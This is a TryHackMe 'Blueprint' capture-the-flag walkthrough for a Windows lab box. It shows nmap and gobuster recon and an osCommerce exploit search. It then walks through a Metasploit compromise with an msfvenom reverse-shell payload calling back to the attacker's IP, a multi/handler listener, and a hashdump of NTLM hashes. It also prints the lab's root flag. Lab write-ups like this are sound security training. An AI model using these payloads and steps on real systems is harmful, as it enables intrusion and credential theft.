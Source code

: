 # TryHackMe-Blueprint

## NMAP

```
nmap -sC -sV $IP

```

```
Nmap scan report for 10.10.37.223
Host is up (0.38s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.42 seconds

```




## Gobuster


```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.37.223:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/23 14:30:08 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/aux (Status: 403)
/cgi-bin/ (Status: 403)
/com2 (Status: 403)
/com3 (Status: 403)
/com1 (Status: 403)
/con (Status: 403)
/licenses (Status: 403)
/lpt1 (Status: 403)
/lpt2 (Status: 403)
/nul (Status: 403)
/phpmyadmin (Status: 403)
/prn (Status: 403)
/server-status (Status: 200)
/server-info (Status: 200)
/webalizer (Status: 403)
===============================================================
2020/09/23 14:32:46 Finished

```


## PORT 8080


<img scr="https://imgur.com/BFgp2dj.png" />


I looked up on exploitdb for `osCommerce 2.4.3` and found many exploits one of which was


<img src="https://imgur.com/vMcOi7I.png" />

<img src="https://imgur.com/nUiVxuX.png"/>


For me this exploit failed since I cannot make a new installation of database and RCE depends upon this step to be finished.


## Metasploit

I looked on msfconsole if there was an exploit available

<img src="https://imgur.com/xnu5rzj.png"/>

<img src="https://imgur.com/FAjAfSx.png"/>

<img src="https://imgur.com/jKf21kZ.png"/>

Then navigate to `C:\Users\Administrator\Desktop`

root flag : `THM{aea1e3ce6fe7f89e10cea833ae009bee}`


Now we cannot load `kiwi` because it is not stabilized so we are going to create a payload 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.94.60 LPORT=7777 -f exe > shell.exe`


Upload the payload on the machine
```
meterpreter > upload shell.exe
[*] uploading  : shell.exe -> shell.exe
[*] Uploaded -1.00 B of 72.07 KiB (-0.0%): shell.exe -> shell.exe
[*] uploaded   : shell.exe -> shell.exe
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  282    fil   2019-04-11 18:36:47 -0400  desktop.ini
100666/rw-rw-rw-  37     fil   2019-11-27 13:15:37 -0500  root.txt.txt
100777/rwxrwxrwx  73802  fil   2020-09-23 15:02:08 -0400  shell.exe

meterpreter > 


```

Start another msfconsole

```
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 10.8.94.60
LHOST => 10.8.94.60
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > 

```

### Meterpreter on unstabilized Shell

```
meterpreter > execute -f shell.exe
Process 5212 created.
meterpreter > 

```

### Meterperter for getting stablized shell


```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.94.60:7777 
[*] Sending stage (176195 bytes) to 10.10.143.248
[*] Meterpreter session 1 opened (10.8.94.60:7777 -> 10.10.143.248:49167) at 2020-09-23 15:13:54 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter > 

```
Visit Crackstation for cracking NTLM hash
